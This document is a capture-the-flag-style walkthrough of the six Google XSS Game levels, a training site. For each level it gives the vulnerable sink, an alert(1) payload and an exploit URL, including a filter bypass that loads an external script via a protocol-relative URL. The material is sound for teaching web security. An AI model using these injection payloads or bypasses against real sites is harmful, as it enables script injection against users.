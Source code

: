 # Google XSS Game Walkthrough (Levels 1–6)

A complete write-up of all six levels of the [Google XSS Game](https://xss-game.appspot.com), showcasing how each level demonstrates a different form of Cross-Site Scripting (XSS).

---

## [1/6] Level 1: Hello, World of XSS

1.	Objective: Trigger an alert by injecting JavaScript into the query URL parameter.
 ![challenge1]( challenges/1.png)
2.	Code Behavior:\
  a.	The application reflects the query parameter into the page without sanitization:\
  b.	![code1](codes/1.png)
4.	Vulnerability\
  a.	Reflected Cross-Site Scripting (XSS)\
  b.	User input is placed directly into the DOM using .innerHTML without sanitization or escaping. 
5.	Payload: <script>alert(1)</script>
6.	Exploit URL: https://xss-game.appspot.com/level1/frame?query=<script>alert(1)</script>ipt>
![result1](result/1.png)
---

## [2/6] Level 2: Persistence Is Key

1.	Objective: Exploit stored XSS by injecting JavaScript into a message field that will be saved and later reflected into the page.
 ![challenge2]( challenges/2.png)
2.	Code Behavior\
   a.	 ![code2](codes/2.png)
3.	Vulnerability\
  a.	Stored XSS (DOM-based)\
  b.	User input is unsafely embedded into the DOM using .innerHTML, allowing script execution.
4.	Payload: <img src=x onerror=alert(1)>
![result2](result/2.png)
---

## [3/6] Level 3: That Sinking Feeling...
1.	Objective: Trigger XSS by injecting into a JavaScript sink that uses user input to build and insert raw HTML.
 ![challenge3]( challenges/3.png)
2.	Code Behavior\
   a.	 ![code3](codes/3.png)\
   b.	The app reads input from location.hash and passes it to chooseTab().\
  d.	Inside chooseTab(num), your input is used to dynamically build HTML\
  e.	This creates a string of HTML with your input directly inserted into an <img> tag’s src attribute using .html() — a dangerous sink.
3.	Vulnerability\
  a.	DOM-based reflected XSS\
  b.	No input validation or sanitization\
  c.	Direct insertion into HTML via .html() with attacker-controlled num\
  d.	Allows attribute injection and event handler execution (e.g., onerror)
4.	Payload: #1'%20onerror='alert(1)
5.	Exploit URL: https://xss-game.appspot.com/level3/frame#1'%20onerror='alert(1)
![result3](result/3.png)
---

## [4/6] Level 4: Context Matters
1.	Objective: Trigger a DOM-based reflected XSS by exploiting how the application uses location.hash to dynamically build an HTML element using jQuery.
 ![challenge4]( challenges/4.png)
2.	Code Behavior\
  a.	 ![code4](codes/4.1.png)\
  b.	 ![code4](codes/4.2.png)\
  c.	The app dynamically builds JavaScript using this pattern\
  d.	Your input from the location.search (the part after ?) is directly inserted into a JavaScript string, which is then executed via setTimeout().
3.	Vulnerability\
  a.	DOM-based Reflected XSS in JavaScript string context\
  b.	Unescaped user input is inserted into a JavaScript string and executed\
  c.	Allows attackers to close the existing expression and inject arbitrary JavaScript
4.	Payload: 1');alert(1);//
5.	Exploit URL: https://xss-game.appspot.com/level4/frame?timer=1%27%29%3Balert%281%29%3B%2F%2F
![result4](result/4.png)
---

## [5/6] Level 5: Breaking Protocol
1.	Objective: Trigger JavaScript execution by injecting a javascript: URI into a link — without using <script> or onclick.
 ![challenge5]( challenges/5.png)
2.	Code Behavior: \
  a.	 ![code5](codes/5.1.png)\
  b.	 ![code5](codes/5.2.png)\
  c.	The application builds a confirmation page based on the next parameter and does this\
  d.	Your next value is:\
    i.	Embedded directly into the href attribute\
    ii.	Later executed as a redirect URL
3.	Vulnerability\
  a.	DOM-based XSS via href="..." and window.location\
  b.	No validation or sanitization of the next parameter\
  c.	Allows injection of javascript: protocol URIs, which are executable links
4.	Payload: javascript:alert(1)
5.	Exploit URL: http://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
![result5](result/5.png)
---

## [6/6] Level 6: Follow the 🐇
1.	Objective: Trigger XSS by injecting an external script file, even though the app tries to block URLs that start with http:// or https://.
![challenge6]( challenge/6.png)
2.	Code Behavior:\
  a.	 ![code6](code/6.png)\
  b.	The app dynamically creates a <script> tag using input from the URL hash (#)
3.	Vulnerability\
  a.	DOM-based XSS via external script injection\
  b.	App blocks only http:// and https://, but not //domain.com\
  c.	You can bypass the filter using a protocol-relative URL, like //evil.com/xss.js\
4.	Payload: //cdn.jsdelivr.net/gh/naorlivne/poc/xss.js ( Where that file contains: alert(1); )
5.	Exploit URL: https://xss-game.appspot.com/level6/frame#//cdn.jsdelivr.net/gh/naorlivne/poc/xss.js
![result6](result/6.png)
---

## Summary Table

| Level | Vulnerability Type        | Input Source  | Sink               | Payload Example                |
| ----- | ------------------------- | ------------- | ------------------ | ------------------------------ |
| 1     | Reflected XSS             | URL Query     | `.innerHTML`       | `<script>alert(1)</script>`    |
| 2     | Stored DOM XSS            | Message field | `.innerHTML`       | `<img src=x onerror=alert(1)>` |
| 3     | DOM Reflected XSS         | URL Hash      | `.html()`          | `#1'%20onerror='alert(1)`      |
| 4     | DOM Reflected XSS (JS)    | URL Query     | `setTimeout(...)`  | `1');alert(1);//`              |
| 5     | Protocol-based XSS        | URL Query     | `href`, redirect   | `javascript:alert(1)`          |
| 6     | Script Injection via Hash | URL Hash      | `<script src=...>` | `#//evil.com/script.js`        |

---

Created by: **Praful Mardhekar**\
Cyber Security & Offensive Security Enthusiast

